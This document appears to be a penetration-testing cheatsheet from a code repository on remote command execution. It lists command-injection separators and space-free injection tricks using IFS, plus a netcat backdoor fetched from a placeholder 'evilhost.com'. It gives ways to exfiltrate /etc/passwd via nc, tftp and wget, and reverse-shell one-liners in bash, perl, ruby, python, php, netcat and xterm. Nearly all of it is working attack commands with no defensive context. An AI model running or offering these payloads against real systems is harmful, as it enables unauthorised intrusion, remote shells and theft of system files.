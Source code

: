 Remote Command Exec Cheatsheet

File notes

**source-disc-cmd-exec-traversal.fuzz.txt**
usage<br>
```GET /path/*payload*relative/path/to/target/file/```

**Executing Commands**
Seperating Commands<br>
``` blah;blah2 ```

PIPES<br>
``` blah ^ blah 2```

AND <br>
```blah && blah2```

OR<br>
```FAIL || X```

OR <br>
``` blah%0Dblah2%0Dblah3 ```

Backtick<br>
``` `blah` ```

Background <br>
``` `blah & blah2` ```

***Shell commands without spaces***
<b>Using Internal Field Separator (IFS)</b>
Test for cmd injection withouot spaces:<br>
``` sleep${IFS:0:1}20 ```<br>

Example netcat backdoor without spaces:<br>
``` {wget,http://evilhost.com/nc} ```<br>
``` {chmod,+x,./nc} ```<br>
``` {./nc,-l,-p,6666,-e,/bin/bash} ```<br>

<b>Shell Variables</b><br>
``` CMD=$'cat\x20/etc/passwd';$CMD ```

shell variable, increment through file one line at a time: <br>
increment the first +1 to retreive the entire file, line by line<br>
``` SP=$'\x20';cat$SP/etc/passwd|tail$SP-n+1|head$SP-n+1 ```

**Exfiltrating Files / Data**

FTP <br>
Make a new text file, and echo and then redirect to FTP

NC <br>
``` 'nc -e /bin/sh' ```

NC <br>
``` 'echo /etc/passwd  | nc host port' ```

TFTP <br>
``` 'echo put /etc/passwd | tftp host' ```

WGET: <br>
``` 'wget --post-file /etc/passwd' ```

**One-Liner Reverse Shells**
On the listener <br>
``` $ nc -l -p 8080 -vvv' ```

On the remote host...<br>
Bash:<br>
``` $ bash -i >& /dev/tcp/10.0.0.1/8080 0>&1 ```

``` $ exec 5<>/dev/tcp/evil.com/8080 ```<br>
``` $ cat <&5 | while read line; do $line 2>&5 >&5; done ```

Perl<br>
```$ perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};' ```

Ruby<br>
``` $ ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)' ```

Python<br>
``` $ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' ```

PHP<br>
``` $ php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");' ```
(Assumes TCP uses file descriptor 3. It it doesn't work, try 4,5, or 6)

Netcat<br>
``` $ nc -e /bin/sh 10.0.0.1 1234 ```

``` $ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f ```


XTERM:<br>
Server: <br>
```$ xterm -display 10.0.0.1:1```
Listener:<br>
```$ Xnest :1```
```$ xhost +targetip```


<br>More docs: /docs/attack-docs/remote-cmd-exfiltration/<br>
